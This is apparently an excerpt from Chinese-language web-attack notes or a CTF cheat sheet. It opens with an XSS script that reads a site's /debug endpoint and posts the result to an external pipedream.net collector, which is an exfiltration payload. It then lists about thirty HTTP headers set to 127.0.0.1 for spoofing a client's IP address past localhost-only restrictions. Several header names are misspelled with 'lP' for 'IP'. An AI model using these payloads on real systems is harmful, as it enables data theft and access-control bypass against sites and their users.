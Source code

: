 ```html
    <script>fetch('/debug').then(r => r.json()).then(j => {return fetch('https://eoqyezrkj9efv5t.m.pipedream.net',{method: 'POST',body: JSON.stringify({ data: j })});})</script>

</body>

  

</html>
```

#### 伪造ip
```
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
```
```
X-Forwarded-For: 127.0.0.1
X-Forwarded:127.0.0.1
Forwarded-For:127.0.0.1
Forwarded:127.0.0.1
X-Requested-With:127.0.0.1
X-Forwarded-Proto:127.0.0.1
X-Forwarded-Host:127.0.0.1
X-remote-lP:127.0.0.1
X-remote-addr:127.0.0.1
True-Client-lP: 127.0.0.1
X-Client-lP:127.0.0.1
Client-lP: 127.0.0.1
X-Real-IP:127.0.0.1
Ali-CDN-Real-IP:127.0.0.1
Cdn-Src-lp:127.0.0.1
Cdn-Real-lp:127.0.0.1
CF-Connecting-lP:127.0.0.1
X-Cluster-Client-lP:127.0.0.1
WL-Proxy-Client-lP:127.0.0.1
Proxy-Client-lP:127.0.0.1
Fastly-Client-lp: 127.0.0.1
True-Client-lp: 127.0.0.1
X-Originating-lP:127.0.0.1
X-Host: 127.0.0.1
X-Custom-lP-Authorization:127.0.0.1
```